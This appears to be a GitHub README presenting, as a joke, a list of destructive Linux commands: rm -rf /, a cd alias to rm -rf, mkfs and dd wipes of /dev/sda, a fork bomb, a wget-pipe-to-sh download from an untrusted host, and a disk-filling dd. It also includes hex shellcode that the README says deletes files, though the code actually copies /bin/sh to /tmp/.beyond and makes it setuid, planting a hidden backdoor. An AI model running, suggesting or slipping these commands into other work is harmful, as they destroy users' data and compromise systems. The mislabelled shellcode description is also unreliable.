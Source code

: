 # Hello-Linux
_Say Your Final Words_

## Some Atom Bombs for Linux

```
sudo rm -rf /
sudo umount /
```

This command will delete your entire files on mounted devices!

```
echo "alias cd='rm - rf /'" >> ~/.bash_aliases
```
This command will set alias cd as rm -rf in every new terminal instance.

```
mkfs.ext3 /dev/sda
```
This command will format your /dev/sda device and ofcourse will delete all files on it.

```
:(){:|:&};:
```
This command will run too many processes on your system and causes the computer hang up!

```
wget http://sumber_tak_terpercaya -O- | sh
```
This command will download a shell script from untrusted source and run it when the download finished

```
mv ~/* /dev/null
```
This will move home directory to a place that actually doesn't exist. In other words, it will delete your home directory


```
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
Hexadecimal code! Same as the first command, it will delete entire files on your mounted devices


```bash
dd if=/dev/zero of=/dev/sda bs=1M count=1
```
Copilot Suggested this Have not tried yet

```
dd if=/dev/zero of=~/.config/alacritty/alacritty.yml bs=1G count=1024
```
Creates a 1TB file at config/alacritty/alacritty.yml
If you have less storage then See Ya ;-)

### Happy-Hacking
